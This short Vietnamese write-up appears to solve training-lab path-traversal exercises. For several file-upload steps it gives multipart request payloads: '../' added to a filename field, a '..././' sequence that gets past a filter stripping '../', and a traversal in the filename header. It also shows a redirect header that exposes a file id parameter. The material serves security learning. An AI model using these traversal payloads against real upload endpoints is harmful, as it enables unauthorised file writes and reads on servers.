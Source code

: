 ip:

```
104.130.219.202
```

## Path traversal

### 2. Path traversal while uploading files 

Thêm `../` vào trước file name trong request:

```
Content-Disposition: form-data; name="fullName"

../test
```

### 3. Path traversal while uploading files

Bài này `../` bị filter nên chèn thêm 1 lần nữa vào chính giữa:

```
Content-Disposition: form-data; name="fullNameFix"

..././test
```

### 4. Path traversal while uploading files

Sửa lại trường `filename` ở header:

```
Content-Disposition: form-data; name="uploadedFileRemoveUserInput"; filename="../bruh.txt"
```

### 5. Retrieving other files with a path traversal

Khi bắt request mình nhận được header có kèm filename:

```
Location: /PathTraversal/random-picture?id=4.jpg
```

![3](images/3.png)

